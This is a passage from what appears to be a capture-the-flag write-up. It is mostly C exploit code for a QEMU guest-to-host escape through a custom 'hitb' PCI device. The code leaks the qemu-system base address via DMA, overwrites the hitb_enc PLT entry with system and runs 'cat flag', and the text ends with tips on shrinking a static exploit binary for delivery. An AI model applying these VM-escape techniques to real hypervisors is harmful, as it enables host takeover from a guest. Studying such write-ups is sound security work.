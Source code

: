     set_dma_cmd( COPY_TO_PA );

    // Sleep is requires so we don't race the DMA thread
    do {
        sleep( 1 );
    } while ( get_dma_cmd() & 1 );

    // Informational leak for qemu-system-x64 base load address
    va[0] -= 0x283dd0;
    printf( "QEMU ELF BASE: %p\n", *(void**)va );

    // Calc offset to qemu-system-x64 PLT entry for system
    va[0] += 0x1fdb18;

    // Overwrite hitb_enc with system in PLT
    // using cpu_physical_memory_rw(dma.src, &hitb_enc, is_write)
    // this way we are using the above function the reverse way copying from PA to VA
    set_dma_cnt( 8 );
    set_dma_src( phys_dst );
    set_dma_dst( 0x40000 + 0x1000 );
    set_dma_cmd( COPY_FROM_PA );

    // Sleep to wait the DMA thread
    do {
        sleep( 1 );
    } while ( get_dma_cmd() & 1 );

    // Copy the string for system in dma_buf[]
    // hitb_enc takes the dma_buf[] ptr
    puts( "Copying command" );
    char cmd[] = "cat flag";
    strcpy( (char*)va, cmd );
    set_dma_cnt( sizeof( cmd ) );
    set_dma_src( phys_dst );
    set_dma_dst( 0x40000 );
    set_dma_cmd( COPY_FROM_PA );

    // Wait for the DMA to finish again
    do {
        sleep( 1 );
    } while ( get_dma_cmd() & 1 );

    // call hitb_enc(hitb_buf)
    set_dma_src( 0x40000 );
    set_dma_cmd( COPY_TO_PA | HITB_ENC );

    munmap( va, 0x1000 );
    munmap( mmio, mmio_size );
    return 0;
}
{% endhighlight %}

If we have to imagine a scenario where we have to deliver our exploit to the server and there's no compiler there, we would have to transfer a statically compiled version of our exploit. To reduce the size to a minimum we can use `musl-gcc`, optimize for size, and strip the symbols. We can reduce the size even further if we change the libc API to direct syscalls (per vakzz's suggestion).
